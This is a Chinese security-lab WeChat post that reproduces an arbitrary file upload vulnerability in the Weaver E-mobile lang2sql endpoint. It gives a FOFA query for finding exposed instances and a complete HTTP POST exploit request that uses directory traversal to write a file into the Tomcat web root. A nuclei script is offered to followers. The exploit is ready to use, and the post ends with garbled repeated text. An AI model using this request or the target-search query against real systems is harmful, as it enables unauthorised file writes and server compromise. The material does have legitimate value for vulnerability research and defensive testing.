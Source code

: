 #  泛微 E-mobile lang2sql 任意文件上传

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 17个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

泛微 E-mobile系统 lang2sql接口存在任意文件上传漏洞。

 **01**

 **空间搜索语法**

![]()

fofa

title="移动管理平台-企业管理"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

lang2sql接口存在任意文件上传漏洞，可穿越目录上传文件至根目录。

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /emp/lang2sql?client_type=1&lang_tag=1 HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36Content-Length: 204Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brConnection: closeContent-Type: multipart/form-data;boundary=----WebKitFormBoundarymVk33liI64J7GQaK  
    ------WebKitFormBoundarymVk33liI64J7GQaKContent-Disposition: form-data; name="file";filename="../../../../appsvr/tomcat/webapps/ROOT/vyrnmpek.txt"  
    frobowmh------WebKitFormBoundarymVk33liI64J7GQaK--

漏洞存在响应包如下。  

![]()

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：泛微E-mobile1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

